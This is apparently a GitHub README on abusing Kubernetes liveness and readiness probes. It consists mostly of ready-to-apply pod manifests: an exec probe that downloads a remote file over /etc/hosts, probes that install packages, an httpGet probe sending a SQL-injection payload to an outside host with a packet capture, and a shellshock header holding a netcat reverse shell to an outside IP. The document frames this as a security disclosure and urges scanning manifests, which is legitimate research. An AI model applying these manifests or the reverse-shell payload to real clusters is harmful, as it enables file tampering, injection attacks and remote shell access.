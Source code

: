 ## Exploiting applications using livenessProbes in K8s
### Introduction
Startup, readiness, and liveness probes are very well described in the Kubernetes documentation. <br>
Kubelet uses these probes defined in the pod manifest to verify whether a pod is booting, ready to accept traffic and still alive.<br>
<br>
It is `kubelet` who actually executes the probes (and not the pod itself). <br>

There are different ways the probes are executed. <br>
- httpGet <br>
- exec <br>

The problems described here are considered 'as designed', as you should download containers from a trusted source according to the reviewers. <br>
The examples below shows that trusted sources of container images will not solve the problem, neither will image scanning <br>
To prevent an attack from happening, it is mandatory to scan the Kubernetes pod and deployment manifests rigorously before deploying. <br>

### Examples1: Overwriting files on the pod filesystem 
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec15
spec:
  containers:
  - name: liveness
    image: xxradar/hackon
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      exec:
        command:
        - curl
        - www.xxxxx.com/host.txt
        - -o 
        - /etc/hosts
      initialDelaySeconds: 5
      periodSeconds: 5
EOF
```
### Examples2: Installing applications the pod at deployment 
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness-exec39
spec:
  containers:
  - name: liveness
    image: ubuntu
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    readinessProbe:
      exec:
        command:
        - apt-get 
        - update
      initialDelaySeconds: 5
      periodSeconds: 10
      timeoutSeconds: 60
    livenessProbe:
      exec:
        command:
        - apt-get 
        - install
        - -y
        - curl
      initialDelaySeconds: 60
      periodSeconds: 100
      timeoutSeconds: 60
EOF
```
### Examples3: Attacking http(s) endpoints using sql injection, XXS, ... 

```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    test: liveness
  name: liveness3
spec:
  containers:
  - name: liveness
    image: ubuntu
    args:
    - /bin/sh
    - -c
    - touch /tmp/healthy;sleep 600
    livenessProbe:
      httpGet:
        host: www.xxxx.com
        path: /?'OR 1=1--
        port: 8080
        httpHeaders:
          - name: User-Agent
            value: xxxxxxxxx
EOF
```
```
22:03:04.693794 IP 192.168.0.131.50723 > 198.199.124.250.http-alt: Flags [P.], seq 1:116, ack 1, win 2053, options [nop,nop,TS val 2487114541 ecr 6590553], length 115: HTTP: GET /?'OR 1=1-- HTTP/1.1
  0x0000:  ac22 058e 607c 3c22 fb51 bf41 0800 4500  ."..`|<".Q.A..E.
  0x0010:  00a7 0000 4000 4006 3564 c0a8 0083 c6c7  ....@.@.5d......
  0x0020:  7cfa c623 1f90 8580 94d6 96d2 2b3d 8018  |..#........+=..
  0x0030:  0805 c39c 0000 0101 080a 943e 5b2d 0064  ...........>[-.d
  0x0040:  9059 4745 5420 2f3f 274f 5220 313d 312d  .YGET./?'OR.1=1-
  0x0050:  2d20 4854 5450 2f31 2e31 0d0a 486f 7374  -.HTTP/1.1..Host
  0x0060:  3a20 7777 772e 7261 6461 7268 6163 6b2e  :.www.radarhack.
  0x0070:  636f 6d3a 3830 3830 0d0a 5573 6572 2d41  com:8080..User-A
  0x0080:  6765 6e74 3a20 4d79 5573 6572 4167 656e  gent:.MyUserAgen
  0x0090:  740d 0a41 6363 6570 743a 202a 2f2a 0d0a  t..Accept:.*/*..
  0x00a0:  436f 6e6e 6563 7469 6f6e 3a20 636c 6f73  Connection:.clos
```
### Examples4 : Attacking http(s) endpoints using shellshock
```
apiVersion: v1
kind: Pod
metadata:
   name: radarhack-pod3
   labels:
      pod: radarhack
spec:
  containers:
  - name: radarhack
    image: docker.io/xxradar/naxsi5
    ports:
    - containerPort: 80
    livenessProbe:
      httpGet:
        host: www.radarhack.com
        path: /index.html?test=' or 1=1--
        port: 8080
        httpHeaders:
        - name: Custom-Header
          value: Awesome
        - name: X-Frame-Options
          value: () { :;};echo;/bin/nc -e /bin/bash 192.168.81.128 443
      initialDelaySeconds: 3
      periodSeconds: 3
 ```


